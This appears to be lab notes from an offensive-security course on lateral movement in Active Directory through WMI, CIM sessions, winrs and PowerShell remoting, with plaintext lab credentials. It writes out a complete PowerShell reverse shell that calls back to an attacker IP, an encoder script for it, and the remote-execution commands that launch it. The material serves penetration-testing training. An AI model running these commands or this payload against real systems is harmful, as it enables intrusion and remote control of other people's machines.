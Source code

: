 # Lateral Movement in Active Directory

### WMIC & WinRM

We'll instruct wmic to launch a calculator, "calc" instance with the process call create keywords. It is important to note, that the machine we are attacking is a server with the hostname Files04. We are attemping to move laterally from our current machine, to this new server.

We can test the command by connecting as jeff on CLIENT74.

```bash
C:\Users\jeff>wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 752;
        ReturnValue = 0;
};
```

The WMI job returned the PID of the newly created process and a return value of "0", meaning that the process has been created successfully.

Translating this attack into PowerShell syntax requires a few extra details.

First, We need to create a PSCredential object that will store our session username and password.

To do that, we will first store the username and password in variables. Then, we will secure the password via the ConvertTo-SecureString cmdlet. Finally, we'll create a new PSCredential object with the username variable and secureString object.
```bash
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

Now that we have our PSCredential object, we need to create a Common Information Model (CIM) via the New-CimSession cmdlet.

To do that, we'll first specify DCOM as the protocol for the WMI session with the New-CimSessionOption cmdlet on the first line. On the second line, we'll create the new session, New-Cimsession against our target IP, using -ComputerName and supply the PSCredential object (-Credential $credential) along with the session options (-SessionOption $Options). Lastly, we'll define 'calc' as the payload to be executed by WMI.

```bash
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

As a final step, we need to tie together all the arguments we configured previously by issuing the Invoke-CimMethod cmdlet and supplying Win32_Process to the ClassName and Create to the MethodName. To send the argument, we wrap them in @{CommandLine =$Command}.

```bash
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

To simulate the technique, we can connect to CLIENT74 as jeff and insert the above code in a PowerShell prompt. (Not all the code is shown below.)

```bash
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded.

To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the payload variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```bash
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.244",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

Once we have saved the Python script, we can run it and retrieve the output to use later.

```bash
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```

From the output, we can conclude that the process creation has been successful, and switch to our listener for a final confirmation.

Nice! We indeed managed to move laterally and gain privileges as the jen domain user on an internal server by abusing WMI features.

As an alternative method to WMI for remote management, WinRM can be employed for remote host management. WinRM is the Microsoft version of the WS-Management protocol and it exchanges XML messages over HTTP and HTTPS. It uses TCP port 5986 for encrypted HTTPS traffic and port 5985 for plain HTTP.

In addition to its PowerShell implementation, which we'll cover later in this section, WinRM is implemented in numerous built-in utilities, such as winrs (Windows Remote Shell). Note that for WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

The winrs utility can be invoked by specifying the target host through the -r: argument and the username with -u: and password with -p. As a final argument, we want to specify the commands to be executed on the remote host. For example, we want to run the hostname and whoami commands to prove that they are running on the remote target.

Since winrs only works for domain users, we'll execute the whole command once we've logged in as jeff on CLIENT74 and provide jen's credentials as command arguments.

```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

The output confirms that we have indeed executed the commands remotely on FILES04.

To convert this technique into a full lateral movement scenario, we just need to replace the previous commands with the base64 encoded reverse-shell we wrote earlier.

```bash
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

PowerShell also has WinRM built-in capabilities called PowerShell remoting, which can be invoked via the New-PSSession cmdlet by providing the IP of the target host along with the credentials in a credential object format similar to what we did previously.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID.

```bash
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

